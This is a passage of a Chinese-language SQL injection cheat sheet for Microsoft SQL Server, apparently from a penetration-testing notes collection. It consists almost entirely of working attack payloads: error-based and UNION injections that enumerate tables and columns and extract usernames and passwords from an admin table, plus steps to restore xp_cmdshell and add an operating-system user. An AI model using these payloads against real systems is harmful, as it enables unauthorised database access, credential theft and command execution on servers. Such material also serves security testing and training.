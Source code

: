 ### 3.MSSQL
**MSSQL注释:**   ``/* */``,``--``,``00%``空字节  
**MSSQL权限:**    
Sa  可以执行mssql数据库的所有操作  
db_owner  执行所有数据库角色活动  
public  维护所有默认权限  
**注入语句:**            
MSSQL版本: select @@VERSION        
获取用户名: and user>0      
数据库名: and db_name() >0      
and 1=(select IS_SRVROLEMEMBER('sysadmin')) //判断是否是系统管理员  
and 1=(select is_srvrolemember('db_owner') //判断是否是库权限  
and 1=(select is_srvrolemember('public') //判断是否为Public权限      
判断表单是否存在:
and exists(select * from 表名)    
判断列数:
order by x  
UNION查询判断字段数:
UNION SELECT null,null....  
逐渐递增，直到无错误产生。  
GROUP BY / HAVING 获​取当前查询的列名:   
获取第一个表名
and (select top 1 name from sysobjects where xtype='u')>0 (得到第一个表名:比如user)    
and (select top 1 name from sysobjects where xtype='u' and name not in ('user'))>0 得到第二个表名，后面的以此类推。  
猜解列名:  
用到系统自带的2个函数col_name()和object_id()，col_name()的格式是“COL_NAME( table_id , column_id )参数table_id是表的标识号，column_id是列的标识号，object_id(admin)就是得到admin在sysobjects 中的标识号，column_id=1,2,3表明admin的第1，2，3列。  
and (select top 1 col_name(object_id('admin'),1) from sysobjects)>0 【得到admin字段的第一个列名“username”依次类推，得到“password”“id”等等】  
猜解字段内容:  
and (select top 1 username from [admin])>0 【直接得到用户名】   
and (select top 1 password from [admin])>0 【直接得到密码】   
UNION联合查询：      
union select user,pwd,uid from 表名  
and 1=1 union select 1,2,3,4,5... from 表名 (数值从1开始慢慢加，如果加到5返回正常，那就存在5个字段)  

<table><thead><tr><th>函数</th><th style="text-align:left">说明</th></tr></thead><tbody><tr><td>stuff</td><td style="text-align:left">字符串截取函数</td></tr><tr><td>ascii</td><td style="text-align:left">取ASCII码</td></tr><tr><td>getdate</td><td style="text-align:left">返回日期</td></tr><tr><td>count</td><td style="text-align:left">返回组中的总条数</td></tr><tr><td>cast</td><td style="text-align:left">将一种数据类型的表达式显示转换为另一种数据类型的表达式</td></tr><tr><td>rand</td><td style="text-align:left">返回随机值</td></tr></tbody></table>

**存储过程:**  
xp_xmdshell:  
and 1=(Select count(*) FROM master.dbo.sysobjects Where xtype='X' AND
name='xp_cmdshell') //判断xp_cmdshell是否存在  
and 1=(select count(*) FROM master.dbo.sysobjects where
name= 'xp_regread') //查看xp_regread扩展存储过程是已被删除  
;exec sp_addextendedproc xp_cmdshell,'xplog70.dll' //恢复xp_cmdshell  
添加用户 exec xp_xmdshell 'net user test test/add'    

常见的存储过程：
